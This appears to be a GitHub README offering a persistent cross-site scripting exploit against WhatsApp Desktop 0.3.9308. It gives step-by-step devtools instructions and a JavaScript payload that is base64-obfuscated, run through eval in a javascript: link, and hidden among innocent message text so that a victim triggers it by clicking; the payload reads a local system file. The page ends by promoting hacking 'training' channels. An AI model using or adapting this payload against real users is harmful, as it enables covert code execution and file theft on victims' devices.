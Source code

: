 # ![Locations](https://raw.githubusercontent.com/attakercyebr/Whatsapp-Desktop-session-hijacking-/main/1.jpg) 


##### Description:
----------------------
- // Title: WhatsApp Desktop 0.3.9308 - Persistent Cross-Site Scripting

- // Date: 2020-01-21

- // Vendor Homepage: https://www.whatsapp.com

- // Software Link: https://web.whatsapp.com/desktop/windows/release/x64/WhatsAppSetup.exe

- // Software Link: https://web.whatsapp.com/desktop/mac/files/WhatsApp.dmg

- // Version: 0.3.9308

- // Tested On: Mac OS, Windows, iPhone

##### Get a license
----------------------
- 🎁 Totally free for all channel members.


##### how to work :
----------------------
- // step 1: open WhatsApp Web and enter a conversation (Will only work on WhatsApp Web source code as compiled with version 0.3.9308)

- // step 2: open devtools and search in all files "t=e.id"

- // step 3: after prettifying, set a breakpoint at the line where "t = e.id" can be found

- // step 4: paste "https://example.com" in the text box and hit "Enter"

- // step 5: when the code stops at the breakpoint, paste the following exploit code in the console and hit "Enter"

- // step 6: press F8 in order for the execution to continue

- // result: a message should be sent to the victim that once is clicked will execute the payload above

## Usage
----------------------

```javascript
var payload = `(async function() {
alert(navigator.userAgent);
(async function() {
// read "file:///C:/windows/system32/drivers/etc/hosts" content
const r = await fetch(atob('ZmlsZTovLy9DOi93aW5kb3dzL3N5c3RlbTMyL2RyaXZlcnMvZXRjL2hvc3Rz'));
const t = await r.text();
alert(t);
}())
}())`;

payload = `javascript:"https://example.com";eval(atob("${btoa(payload)}"))`;

e.__x_matchedText = payload;

e.__x_body = `
Innocent text

${payload}

More Innocent text
`;

```

#####video:
----------------------
# ![Locations](https://github.com/attakercyebr/Whatsapp-Hack/blob/main/1.mp4) 


# Visit the following channels and sites for more training and tools:
----------------------
- 🔞 https://m4nifest0.com
- 🔞 https://m4nifest0.group
- 🔞 https://m4nifest0.shop
- 🔞 https://t.me/M4nifest0

----------------------

<h2>
<p align="center">	
</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://t.me/M4nifest0">
		<img src="https://img.shields.io/badge/Telegram-%23000000.svg?&style=for-the-badge&logo=Telegram&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://twitter.com/_M4nifest0_">
		<img src="https://img.shields.io/badge/twitter-%231DA1F2.svg?&style=for-the-badge&logo=twitter&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
	<a href="https://m4nifest0.com">
		<img src="https://img.shields.io/badge/WebSite-%234A154B.svg?&style=for-the-badge&logo=slack&logoColor=white" />
	</a>&nbsp;&nbsp;&nbsp;&nbsp;
</p>
